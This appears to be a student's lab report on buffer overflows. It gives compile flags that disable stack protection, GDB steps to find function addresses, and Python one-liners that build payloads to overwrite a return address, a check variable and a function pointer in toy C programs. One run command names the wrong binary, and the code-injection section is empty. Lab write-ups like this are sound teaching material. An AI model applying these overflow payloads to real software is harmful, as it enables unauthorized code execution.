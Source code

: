 # 21110073 Le Bui Huu Phuc
# Lab #1: Buffer Overflow
# Task 1: Stack smashing by memory overwritten
## 1.1. bof1.c
- Compile the program using the following command:
![img1.1](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/fd7842bc5625ec9590414f935437903fb41a70d5/A%CC%89nh%20ma%CC%80n%20hi%CC%80nh%202024-06-27%20lu%CC%81c%2020.02.43.png)
- This command disables stack protection and sets the boundary.
![img1.2](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.2.png?raw=true)
- Use the GDB command disas to get the address of push ebp in the secretFunc() function. The address obtained is:
![img1.3](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.3.png?raw=true)
- 0x0804846b
- Create the input payload using Python and execute the program with the crafted input:
![img1.3](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.4.png?raw=true)
- Here, the address 0x0804846b is appended to the payload, and ./bof1.o is executed with 1 as the argument.
## 1.2. bof2.c
- Crafting the Payload
+ Create a string that is 44 bytes long, where the first 40 bytes fill buf, and the next 4 bytes overwrite check with 0xdeadbeef. Python command to generate such a payload:
```python python -c "print('A'*40 + '\xef\xbe\xad\xde')" > input.txt ```
- Compile the Program:
```python gcc bof2.c -o bof2.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2```
- Run the Program:
``` ./bof1.o < input.txt```
![img2.1](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof2.1.png?raw=true)
## 1.3. bof3.c
### Key Points:
+ Buffer Definition: char buf[128]; creates a buffer of 128 bytes.
+ Function Pointer: void (*func)() = sup; initializes func to point to the sup function.
+ Buffer Overflow: fgets(buf, 133, stdin); reads up to 132 characters into buf, which can overflow the buffer and overwrite adjacent memory, including the func pointer.
+ Function Call: func(); calls the function pointed to by func.
### Exploitation Strategy
- Overflow buf to overwrite the func pointer with the address of the shell function.
- Ensure that after the overflow, func points to shell.
### Steps to Exploit
+ Find the Address of the shell Function: ``` gcc bof3.c -o bof3.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2```
![img](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof3.1.png?raw=true)
- Compile the program with debug information: ```gdb bof3.o
(gdb) disas shell```
### Determine the Offset:
- Since buf is 128 bytes and func is immediately after buf, the offset to overwrite func will be 128 bytes.
### Create the Payload:

- The payload should be 128 bytes of filler followed by the address of shell.
- Use Python to create the payload: ```python -c "print('A'*128 + '\x5b\x84\x04\x08')" > input.txt```
### Run the Program:
```./bof3.o < input.txt```
# Task 2: Code injection
## 2.1. Preparing shell code
## 2.2. Preparing the payload
## 2.3. Code injection
